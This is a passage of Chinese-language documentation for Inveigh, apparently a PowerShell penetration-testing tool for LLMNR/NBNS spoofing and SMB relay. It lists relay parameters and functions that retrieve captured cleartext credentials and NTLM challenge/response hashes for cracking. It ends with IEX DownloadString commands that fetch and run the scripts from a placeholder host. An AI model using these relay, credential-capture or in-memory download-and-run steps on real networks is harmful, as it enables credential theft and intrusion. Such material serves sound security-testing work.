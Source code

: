 －SMBRelayTarget：为SMB中继设置目标系统的IP地址。

－SMBRelayCommand：SMB中继执行命令

－SMBRelayUsernames-Default = All Usernames：用于中继攻击的用户名列表，列表中的参数用逗号分隔开。该参数支持使用“用户名”以及“域名用户名”形式的数据。

－SMBRelayAutoDisable-Default = Enable：（Y/N）当控制命令成功在目标系统中执行之后，自动禁用SMB中继。

－FileOutput-Default = Disabled：（Y/N）启用或禁用实时文件输出。

－StatusOutput-Default = Enabled：（Y/N）启用或禁用程序启动和关闭的提示信息。

－OutputStreamOnly-Default = Disabled：（Y/N）启用或禁用强制化标准输出。这是一个非常有用的参数，当你启用这一功能之后，你将会在控制台中看到很多黄色的警告信息。

**支持功能**

Get-Inveigh：获取控制台的输出队列

Get-InveighCleartext：获取所有捕捉到的证书信息（明文形式）

Get-InveighLog：获取系统日志信息

Get-InveighNTLM：获取所有捕捉到的挑战／应答信息

Get-InveighNTLMv1：获取所有的或单独的NTLMv1挑战／应答信息

Get-InveighNTLMv2：获取所有的或单独的NTLMv2挑战／应答信息

Get-InveighStat：获取捕捉到的挑战／应答信息数量

Watch-Inveigh：启用控制台的实时输出功能

Clear-Inveigh：清除内存中的Inveigh数据

Stop-Inveigh：停止Inveigh的所有功能

**其他信息**

－并不需要禁用主机系统中的本地LLMNR/NBNS 服务。

－LLMNR/NBNS协议欺骗将会指向目标主机系统中的SMB服务。

－请确保所有需要的LMMNR,NBNS,SMB,HTTP,HTTPS端口处于开启状态，并且主机系统的本地防火墙。

－如果你在控制台窗口中复制或粘贴挑战／应答数据包，并将其用于密码破解。请保证数据中没有额外的回车符。

**使用**

使用Import-Module引入其他功能模块：

Import-Module ./Inveigh.psd1

使用点源法导入：

. ./Inveigh.ps1

. ./Inveigh-BruteForce.ps1

. ./Inveigh-Relay.ps1

使用Invoke-Expression向内存中加载数据：

IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh.ps1")

IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh-Relay.ps1")
